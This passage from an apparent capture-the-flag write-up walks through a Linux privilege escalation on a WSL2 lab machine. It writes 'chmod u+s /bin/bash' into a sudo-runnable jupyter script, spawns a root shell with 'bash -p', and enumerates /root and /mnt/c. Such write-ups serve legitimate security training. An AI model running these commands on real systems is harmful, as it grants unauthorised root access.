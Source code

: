 ```
#!/usr/bin/bash
(base) dev-datasci@DEV-DATASCI-JUP:~/.local/bin$ /usr/bin/echo 'chmod u+s /bin/bash' >> jup/usr/bin/echo 'chmod u+s /bin/bash' >> jupyter
/usr/bin/echo 'chmod u+s /bin/bash' >> jupyter
(base) dev-datasci@DEV-DATASCI-JUP:~/.local/bin$ cat jupyter
#!/usr/bin/bash
chmod u+s /bin/bash

(base) dev-datasci@DEV-DATASCI-JUP:~/.local/bin$ chmod +x jupyter
```
We run the sudo command, then we run the **bash** with *-p* to get the privileges, but we see that there is no flag, as this must be found on the desktop of the Windows machine.

```
sudo /home/dev-datasci/.local/bin/jupyter
(base) dev-datasci@DEV-DATASCI-JUP:~/.local/bin$ bash -p
bash-5.0# id
id
uid=1000(dev-datasci) gid=1000(dev-datasci) euid=0(root) groups=1000(dev-datasci),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev)
bash-5.0# ls -lna /root
ls -lna /root
total 4
drwx------ 1 0 0 4096 Aug 25  2022 .
drwxr-xr-x 1 0 0 4096 Aug 25  2022 ..
-rw-r--r-- 1 0 0 3106 Dec  5  2019 .bashrc
drwxr-xr-x 1 0 0 4096 Aug 25  2022 .local
-rw-r--r-- 1 0 0  161 Dec  5  2019 .profile
bash-5.0# 
```
We continue enumerating the machine, we see that there are remains of a mount of the */mnt/c* drive, so we are probably in a virtualized **linux** with **wsl2**, so I tried to mount the drive, but it is only allowed for the root user.
```
bash-5.0# ls -lna /mnt
ls -lna /mnt
total 0
drwxr-xr-x 1 0 0 4096 Aug 25  2022 .
drwxr-xr-x 1 0 0 4096 Aug 25  2022 ..
drwxrwxrwx 1 0 0 4096 Aug 25  2022 c

bash-5.0# ls -lna /mnt/c
ls -lna /mnt/c
total 0
drwxrwxrwx 1 0 0 4096 Aug 25  2022 .
drwxr-xr-x 1 0 0 4096 Aug 25  2022 ..

bash-5.0# mount -t drvfs c: /mnt/c
mount -t drvfs c: /mnt/c                                                                                                                               
mount: only root can use "--types" option
bash-5.0# 

```
